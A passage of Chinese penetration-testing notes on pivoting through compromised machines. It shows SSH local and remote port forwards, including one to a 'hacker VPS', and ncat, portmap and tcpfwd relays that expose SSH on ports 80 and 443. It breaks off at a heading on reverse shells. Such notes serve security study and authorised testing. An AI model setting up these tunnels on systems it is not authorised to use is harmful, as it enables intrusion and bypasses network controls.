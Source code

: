     输入A机器密码，本地利用proxychains等类似工具连接本地的1111端口的sock5连接即可代理A机器的网络。

-   场景b：如果控制A、B机器，A能够访问B，且能出网，B能够访问C，但不能出网，A不能访问C  
    A机器执行：
    
    1.  `ssh -CNfg -L 2121:CIP:21 root[@BIP](https://github.com/BIP "@BIP")`
    
    输入BIP机器密码，访问A的2121端口即是访问CIP的21端口。

-   场景c：控制A机器，A能够访问B  
    A机器执行：
    
    1.  `ssh -CNfg -R 2121:BIP:21 root[@hackervps](https://github.com/hackervps "@hackervps")`
    
    输入黑客VPS密码，访问黑客VPS的2121端口即是访问BIP的21端口。

## nc/ncat

服务端执行监听命令：

```css
ncat --sh-exec "ncat 127.0.0.1 22" -l 80 --keep-open
```

客户端连接服务端的80端口即可SSH连接：

```plain
SSH root@serverip -p 80
```

## portmap

服务端执行：

```css
portmap -m 1 -p1 80 -h2 127.0.0.1 -p2 22
```

客户端连接服务端的80端口即可SSH连接：

```plain
SSH root@serverip -p 80
```

## portfw

服务端执行：

```css
tcpfwd 0.0.0.0:443 127.0.0.1:22
```

客户端连接服务端的443端口即可SSH连接：

```plain
SSH root@serverip -p 443
```

# 反弹shell
